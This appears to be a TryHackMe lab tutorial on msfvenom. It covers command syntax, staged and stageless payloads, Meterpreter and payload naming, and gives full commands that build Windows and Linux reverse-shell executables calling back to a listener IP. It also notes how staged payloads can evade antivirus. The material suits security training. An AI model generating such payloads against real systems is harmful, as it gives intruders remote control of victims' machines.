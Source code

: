 Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (**e.g. .exe, .aspx, .war, .py**). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

The standard syntax for msfvenom is as follows:

- msfvenom -p <PAYLOAD> <OPTIONS>

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

- msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>



Here we are using a payload and four options:
- f {format}
Specifies the output format. In this case that is an executable (exe)
- o {file}
The output location and filename for the generated payload.
- LHOST={IP}
Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
- LPORT={port}
The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.
Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.
Stageless payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.
Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

Meterpreter

On the subject of Metasploit, another important thing to discuss is a Meterpreter shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell, however, that is a topic for another time. The downside to meterpreter shells is that they must be caught in Metasploit. They are also banned from certain certification examinations, so it's a good idea to learn alternative methodologies.

Payload Naming Conventions

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:

{OS}/{arch}/{payload}

For example:

- linux/x86/shell_reverse_tcp

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:

- windows/shell_reverse_tcp


For a 64bit Windows target, the arch would be specified as normal (x64).

Let's break the payload section down a little further.

In the above examples the payload used was **shell_reverse_tcp**. This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be:
- shell/reverse_tcp

As staged payloads are denoted with another forward slash (/).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

- windows/x64/meterpreter/reverse_tcp

A Linux 32bit stageless Meterpreter payload would look like this:

- linux/x86/meterpreter_reverse_tcp

Aside from the **msfconsole** man page, the other important thing to note when working with msfvenom is:

- msfvenom --list payloads

-----
Example liunx everse shell for meterpreter - 

- msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST={MY IP ADDRESS} LPORT=443
